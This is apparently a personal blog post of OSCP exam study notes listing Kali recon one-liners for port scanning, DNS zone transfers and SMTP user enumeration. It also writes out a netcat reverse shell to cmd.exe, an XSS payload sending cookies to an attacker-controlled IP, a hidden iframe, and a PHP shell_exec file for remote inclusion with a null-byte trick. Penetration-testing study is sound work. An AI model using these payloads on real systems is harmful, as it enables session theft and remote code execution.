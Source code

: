 ```yaml
---
layout: post
title: OSCP Notes
---
```


## BLUF  
"Bottom Line Up Front" for the non-military types. Honestly I just want to get my notes onto the interwebs and off my VM. I've 
done a lot of bash scripting in OSCP that is super useful, but I can't always remember the syntax. Here's to fixing that. I'll do 
another blog post tomorrow when I'm not half asleep

## Meat and Potatoes  

### Starting OSCP Work  

Example OpenVPN firewall - /usr/share/doc/openvpn/examples/sample-config-files/firewall.sh
Add firewall rules - iptables -A INPUT -p tcp --dport 4444 -j ACCEPT
Plink (was told to locate) /usr/share/windows-binaries/plink.exe
Keepnote keepnote for note taking on boxes
If there is firewall issues, try pushing the cmd line from the remote host by passing nc -nv [IP] [Port] -e cmd.exe from remote end and setting up a listener to catch it
recon-ng for passive information gathering

### NMAP/ NC Info Gathering  

root@kali:~/OSCP# nc -nvv -w 1 -z 10.11.23.156 3385-3395 (full TCP handshake scan using NC)
root@kali:~/OSCP# nc -unvv -w 1 -z 10.11.23.156 160-165 (UDP scan using NC)
/usr/share/nmap (location of nmap config files)

### Get top UDP ports (over .01 usage according to NMAP)  

cat /usr/share/nmap/nmap-services | grep '/udp'| cut -f2,3 -d$'\t'| sort -k2 -r | head -n 80 | cut -f1 -d'/'

### DNS  

host -t ns [domain_name] (to find name servers for given domain)
host -t mx [domain_name] (to find mail exchange servers for given domain)
for ip in $(cat NMAP/alives.txt); do dnsrecon -d $ip -t axfr; done

### SMTP/MIB  

cat mib-values | cut -f1 -d$'\t' (to cut from tab delimited)
tail -n +1 10.* (cat all files in a directory with the filename as a header)
for ip in $(cat smtp-open.txt); do for user in $(cat users.txt) ; do ./vrfy.py $ip $user; done; done | grep ^"250" > smtp_open_connected_users & (to find SMTP users who have successfully connected)
for ip in $(cat NMAP/alives.txt); do nc -nv $ip 25; done (to test SMTP connection using nc [not as good as python script])
for ip in $(ls | cut -c1-11 | uniq); do mkdir $ip ; done (to creat folders for each ip address in the SNMP directory)

### WGET  

#### To find the ips with information returned from WGET  
tail -n +1 ./WGET/*/* | grep connected | cut -f3 -d' '| sort -u | cut -f4 -d'.' | cut -f1 -d':' | sort -u > ./WGET/web_vuln_ips
 
#### For moving vulnerable IPs to seperate folder  
for ip in $(cat web_vuln_ips); do  mv 10.11.1.$ip 'Vulnerable Servers'; done 

#### To get list of vulnerable files downloaded  
for ip in $(cat ./WGET/web_vuln_ips); do  tail -n +1 ./WGET/$ip/* | grep 10.11.1.$ip/; done

### XSS Commands

#### Test  
<iframe SRC="(use your IP):(Port to listen on) /report" height="0" width="0"></iframe>
<script>alert("XSS through Javascript, success");</script>

#### Cookie Stealing Inject  
<script>new Image().src="http://(use your IP):81 /bogus.php?output="+document.cookie;</script>

#### Malicious php code to host on local box  
echo '<?php echo shell_exec("ipconfig");?>' > /var/www/html/evil.txt

##### Then place the appropriate url in place of the php element  
http://(local ip)/evil.txt  

#### Then monitor Apache log once the above has been placed in URL
tail -f /var/log/apache2/access.log  

###### If php is adding unnecessary values, php 5.3 and below are vulnerable to terminating characters with null character
http://(local ip)/evil.txt%00  
  
### Dirbuster  
Wordlist - /usr/share/dirbuster/wordlists/directory-list-1.0.txt (one shown in OSCP video)
Deselect "Brute Force Files" & "Be Recursive"
Set number of threads to 70+
